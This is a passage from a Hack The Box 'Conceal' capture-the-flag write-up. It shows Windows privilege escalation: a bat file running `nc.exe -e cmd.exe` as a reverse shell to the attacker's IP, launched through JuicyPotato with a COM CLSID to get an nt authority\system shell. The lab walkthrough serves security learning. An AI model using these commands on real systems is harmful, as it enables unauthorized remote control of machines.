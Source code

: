 ![](/images/hackthebox/conceal/25.png)
#### I created a `bat` file that executes : `nc.exe -e cmd.exe 10.10.xx.xx 1340` to get me a reverse shell :
`echo C:\users\Destitute\appdata\local\temp\nc.exe -e cmd.exe 10.10.xx.xx 1340 > rev.bat`
#### Then I ran `juicypotato.exe` and made it execute that `bat` file :
`juicypotato.exe -p C:\users\Destitute\appdata\local\temp\rev.bat -l 1340 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`
![](/images/hackthebox/conceal/26.png)
#### It worked fine and we got a reverse shell as `nt authority\system`
![](/images/hackthebox/conceal/27.png)
<br>
<br>
![](/images/hackthebox/conceal/28.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)